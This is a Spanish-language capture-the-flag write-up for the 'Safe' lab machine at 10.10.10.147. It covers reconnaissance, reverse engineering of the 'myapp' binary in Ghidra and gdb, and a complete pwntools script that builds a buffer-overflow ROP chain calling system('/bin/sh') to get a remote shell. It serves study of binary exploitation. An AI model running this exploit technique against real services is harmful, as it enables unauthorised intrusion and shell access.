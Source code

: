 # Safe

### Tags
#### Buffer Overflow
#### Binary Exploitation

Empezamos lanzando nmap para ver que puertos y servicios que se estan ejecutando.

![0](https://user-images.githubusercontent.com/50462944/174450002-4592b4e0-1b47-487e-95d7-a76c4e0b6a05.png)

Vemos que el puerto 80 y 1337 estan abiertos.

Analizando la pagina se puede ver un comentario sobre el puerto 1337. 

![1](https://user-images.githubusercontent.com/50462944/174449826-9b702237-a914-4677-a066-f11224e3fc01.png)

Si accedemos a http://10.10.10.147/myapp, se descargara "myapp" que segun el comentario se esta ejecutando en ese puerto.


![2](https://user-images.githubusercontent.com/50462944/174450232-36dc8c6e-b2ec-4803-a879-e7eba0ce6010.png)

![3](https://user-images.githubusercontent.com/50462944/174449828-213d2e92-922f-4dc3-9496-b79cbcf842b1.png)

Viendo el servicio en 1337 y "myapp" podemos ver que es lo mismo.


![4](https://user-images.githubusercontent.com/50462944/174449829-80d951b4-d691-4329-aafb-27fced7f3a8a.png)

Analizando los strings legibles podemos ver que hay un /usr/bin/uptime y la pregunta que devuelve el programa.

Estos abrimos ghidra, y creamos un proyecto y importamos el archivo.

![s2](https://user-images.githubusercontent.com/50462944/174450325-c122d315-fef5-44ae-93b2-c38559494751.png)


![s4](https://user-images.githubusercontent.com/50462944/174449825-a44d5547-bd7e-4994-b4f7-92f6fb86f071.png)

Podemos ver una la función main, una variable local_78 con 112 bits, y una funcion a nivel de sistema.

Por lo que lo interesante seria poder cambiar el /usr/bin/uptime a un /bin/sh.

![6](https://user-images.githubusercontent.com/50462944/174449832-02c396f8-3dc8-479c-aa35-de1caedd6d0c.png)

Con gdb podemos ver las pilas.

![ksnip_20220618-161557](https://user-images.githubusercontent.com/50462944/174455304-4c4c91fb-402b-4be9-90e8-2786897e3e89.png)

Hacemos un breackpoint en la funcion main

![ksnip_20220618-152833](https://user-images.githubusercontent.com/50462944/174452172-8407bccd-b1b0-4658-a922-8db72cea2040.png)

Avanzamos en las pilas con "si" hasta system

![ksnip_20220618-152923](https://user-images.githubusercontent.com/50462944/174452229-eb448863-5294-43a9-83c5-ef4a58d762aa.png)

Se puede ver que el valor /usr/bin/uptime que es ejecutado a nivel de sistema esta siendo guardado en la pila $rdi

![ksnip_20220618-153100](https://user-images.githubusercontent.com/50462944/174452266-ccb916ef-40de-4cda-9f84-b3fb9c87edb4.png)

```bash
~ python3 -c 'print("A"*120 + "B"*8 + "C"* 8)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
```

Ahora podemos ver que $rsp puede ser cambiado 

![ksnip_20220618-152509](https://user-images.githubusercontent.com/50462944/174452383-5afba89a-3979-4e1f-8651-d7d6b7627d19.png)

Analizando la funcion test podemos ver "MOV     RDI, RSP" que significa que esta moviento los valores el $rsp al $rdi. Recordando que $rdi es lo que se ejecuta en system y $rsp es lo que podemos modificar.

![5](https://user-images.githubusercontent.com/50462944/174449816-a39c1be0-5b8c-43a6-9737-71165b201520.png)

Y obtenemos 0x401206 del "JUMP   r13"

![ksnip_20220618-164803](https://user-images.githubusercontent.com/50462944/174455374-1ab2a865-9180-4a40-aa85-229d9e4304d4.png)

```bash
~ cat poc.py
from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)

junk = b"A"*112
# Una vez pasadas las 112 "A" va a haber un desbordamiento
# Le restamos 8 por que /bin/sh\x00 serian 8 caracteres
bin_sh = b"/bin/sh\x00"
# Y remplazamos en binario el $rsi 

pop_r13 = p64(0x401206)
null = p64(0x0)

system_plt = p64(0x401040)

test = p64(0x401152)

payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

p.sendline(payload)
p.interactive()
```

Una vez lanzado el ataque obtenemos una bash.

![7](https://user-images.githubusercontent.com/50462944/174449830-73918c79-32f7-4b06-8eaa-1eb3f07c1f76.png)
